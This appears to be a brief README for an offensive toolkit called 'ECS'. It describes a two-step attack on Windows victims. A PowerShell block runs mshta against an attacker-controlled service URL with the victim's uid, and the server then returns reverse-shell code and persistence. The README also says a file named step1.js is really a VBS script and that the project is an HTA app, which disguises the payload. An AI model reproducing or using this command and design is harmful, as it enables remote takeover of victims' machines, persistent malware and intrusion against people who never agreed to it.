

# ECS


## \color{red} step1:        

 <span style="color:blue"> victim exec the malware or rce on victim : </span>
#### <span style="color:blue"> For windows:  </span>
```powershell  
mshta https://< ecs service url >?uid=< victim uid >&s=1< step number in this > 
``` 
## <span style="color:blue"> step 2 </span>
<span style="color:blue"> server response to victim the reversshell code and persistant acts and make main persist malware
acuatlly the file in path ecs/statics/js/step1.js is not javascript in truth its vbs script file and main html project is hta app  </span>


